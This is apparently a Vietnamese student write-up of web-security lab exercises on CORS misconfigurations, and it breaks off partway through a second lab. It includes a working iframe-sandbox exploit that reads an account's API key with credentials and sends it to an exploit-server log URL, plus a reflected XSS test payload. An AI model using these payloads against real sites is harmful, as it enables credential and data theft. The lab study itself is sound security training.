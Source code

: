 >![](https://i.imgur.com/nlUAwyk.png)

CORS của trang web chấp nhận giá trị `null` trong whitelist, tìm cách khai thác gửi request cross-site tới và lấy API key.

Để trình duyệt set giá trị null cho `Origin` thì các request phải thuộc một trong các tình huống sau:
>![](https://i.imgur.com/bXhpgGm.png)


Kiểm tra trang web, ta thấy nó giống với bài trên, API key được server trả về thông qua request đến đường dẫn `/accountDetails`

Tuy nhiên giờ server đã tạo 1 whitelist các origin được truy cập, trong đó có giá trị `null`. Để trình duyệt set Origin = null thì ta dựa vào các tình huống liệt kê trên, trong đó có thể sử dụng thuộc tính sandbox của thẻ iframe để làm việc này.

```javascript!
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a15003403a957f0c14f210b006c0009.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-0a85005a03db5768c1d7206b01ab00d0.exploit-server.net//log?key='+this.responseText;
    };
</script>">
</iframe>
```

Kết quả bypass được CORS whitelist và lấy được thông tin.
>![](https://i.imgur.com/IY8lGaJ.png)

<hr>

### Bài 3: CORS vulnerability with trusted insecure protocols

>![](https://i.imgur.com/8KXlBSO.png)

CORS của trang web này thiếu an toàn ở chỗ nó tin tưởng tất cả subdomains và cả protocols. Khai thác và lấy API key của admin.

Tìm kiếm các subdomain bị lộ ra trong trang web, em phát hiện chức năng check stock gửi request đến đường dẫn `http://stock.0a8500bc04d92d95c074953600080091.web-security-academy.net/?productId=1&storeId=1`

Trang web này được trust bởi trang web đang tấn công

>![](https://i.imgur.com/Gjj3edE.png)


Kiểm tra thử miền này, ta thấy nó có lỗ hổng reflected XSS khi ta inject một ID không hợp lệ. Thử bằng payload `<script> alert(1)</script>`
